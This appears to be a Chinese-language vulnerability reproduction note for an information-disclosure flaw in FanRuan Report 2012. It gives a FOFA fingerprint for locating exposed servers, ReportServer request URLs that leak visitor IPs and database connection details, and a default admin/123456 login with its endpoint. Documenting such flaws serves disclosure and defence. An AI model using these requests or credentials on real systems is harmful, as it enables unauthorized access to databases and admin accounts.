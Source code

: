 # 帆软报表 2012 信息泄露漏洞

## 漏洞描述

帆软报表 2012 存在信息泄露漏洞，通过访问特定的Url获取部分敏感信息

## 漏洞影响

> [!NOTE]
>
> 帆软报表 2012

## FOFA

> [!NOTE]
>
> body="down.download?FM_SYS_ID"

## 漏洞复现

获取登录报表系统的IP

```
http://xxx.xxx.xxx.xxx/ReportServer?op=fr_server&cmd=sc_visitstatehtml&showtoolbar=false
```

![](http://wikioss.peiqi.tech/vuln/fan-8.png)

数据库信息泄露

```
http://xxx.xxx.xxx.xxx/ReportServer?op=fr_server&cmd=sc_getconnectioninfo
```

![](http://wikioss.peiqi.tech/vuln/fan-9.png)

后台默认口令 admin/123456

```
/ReportServer?op=fr_auth&cmd=ah_login&_=new%20Date().getTime()
```

